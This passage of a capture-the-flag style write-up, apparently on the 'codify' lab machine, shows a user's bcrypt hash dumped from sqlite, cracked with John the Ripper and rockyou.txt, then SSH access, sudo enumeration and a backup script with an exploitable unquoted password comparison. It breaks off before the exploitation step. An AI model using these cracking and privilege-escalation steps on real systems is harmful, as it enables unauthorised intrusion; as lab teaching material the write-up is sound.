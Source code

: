 ```
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite>
```

Subsequently, I stored the password hash in joshuaHash.txt and proceeded to crack the password using the JohnTheRipper tool with the rockyou.txt wordlist.

```
john --wordlist=/root/Tools/SecLists/Passwords/Leaked-Databases/rockyou.txt joshuaHash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)     
1g 0:00:02:11 DONE (2024-02-21 14:33) 0.007579g/s 10.36p/s 10.36c/s 10.36C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The tool successfully cracked the password as 'spongebob1'. Using this password, I attempted to log in as the user 'joshua' through the open SSH port, achieving successful access to the system.

## root user access

The first executing the sudo -l command, I discovered that the user "joshua" has permission to run the script /opt/scripts/mysql-backup.sh as root without a password prompt.

```
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh

joshua@codify:~$ ls -la /opt/scripts/mysql-backup.sh 
-rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh
```

I print the this script and analysis the code.

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

```